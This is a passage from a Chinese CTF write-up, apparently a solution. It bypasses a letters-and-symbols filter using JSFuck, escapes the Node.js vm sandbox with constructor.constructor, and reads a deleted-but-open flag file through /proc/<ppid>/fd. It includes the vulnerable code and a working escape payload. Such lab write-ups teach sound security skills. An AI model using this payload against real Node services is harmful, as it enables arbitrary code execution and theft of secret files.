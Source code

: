 启用之后，我们就可以执行任意代码了。`/api` 里面有一段非常恶心的判断，让我们执行的代码里不能出现字母和很多符号：

```javascript
if(eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term))
    term = safe_eval(term);
```

这个判断可以通过 [JSFuck](http://www.jsfuck.com/) 绕过。JSFuck 可以把任意代码混淆成只含有 `()+[]!` 六种符号，从而通过上述判断。

那么，如何得到 Flag 2 呢？看起来服务器在启动之前读完 `flag2.txt` 就把它删除了，而且 `FLAG2` 也被设置成了 `null`，但是注意到打开的 `flag2.txt` 文件没有关闭，因此它还存在于 `/proc/xxx/fd/xxx` 里面。

看看 `safe_eval` 是如何执行我们代码的，它会开一个子进程然后把我们的代码放到一个沙箱里执行：

```javascript
const child_process = require('child_process');

const CLIENT_CODE = `
const vm = require("vm");
const code = __USERCODE__;
console.log(vm.runInNewContext(code, {}));
`;
const TIMEOUT_MS = 1000;

function safe_eval(s) {
    let code = CLIENT_CODE.replace('__USERCODE__', JSON.stringify(s));
    try {
        let stdout = child_process.execFileSync('/usr/local/bin/node', ['-'], {
            input: code,
            env: {},
            timeout: TIMEOUT_MS,
            encoding: 'utf-8',
            killSignal: 'SIGTERM',
        });
        return stdout.trim();
    } catch(_) {
        return s;
    }
}
```

事实上 NodeJS 的 `vm` 沙箱是非常脆弱的，基本上没什么卵用，通过 `constructor.constructor("fs=require('fs'); ...")()` 这样的代码 [就能为所欲为](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/)。

于是写出以下代码用于读取父进程仍未关闭的 `flag2.txt`，把它复制到 `/tmp/1`：

```javascript
constructor.constructor('f=require("fs");f.writeFileSync("/tmp/1",JSON.stringify(f.readFileSync(`/proc/${process.ppid}/fd/20`)))')()
```

这里文件描述符 20 的具体值取决于 NodeJS 的一些内部行为，选手可以本地部署相同的环境得到描述符的数值，或者多试几次总能试出来。

于是把上述代码用 JSFuck 混淆一下：
